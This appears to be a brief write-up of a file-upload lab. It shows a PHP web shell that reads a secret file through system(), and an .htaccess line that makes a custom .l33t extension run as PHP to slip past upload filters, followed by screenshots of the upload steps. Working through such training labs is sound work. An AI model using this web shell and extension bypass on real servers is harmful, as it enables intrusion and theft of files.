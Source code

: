 #

## File Contents
* php
```php
<?php
system("cat /home/carlos/secret");
?>
```
* .htaccess
```html
AddType application/x-httpd-php .l33t
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150632010-0f28f6f5-e4fb-48c6-b3c7-ae00f74fcc59.png)

![image](https://user-images.githubusercontent.com/60841283/150632029-3511e069-73da-4b5a-8807-d39e2d70de72.png)

Create a arbitary extension l33t to execute php file

![image](https://user-images.githubusercontent.com/60841283/150632214-05173553-72a1-40c4-80cb-f485675468d2.png)

![image](https://user-images.githubusercontent.com/60841283/150632236-63c00e11-de31-443a-8aca-7e281194ef9b.png)

![image](https://user-images.githubusercontent.com/60841283/150632243-41c4877b-71f6-4abd-b24d-8ba3d704020c.png)
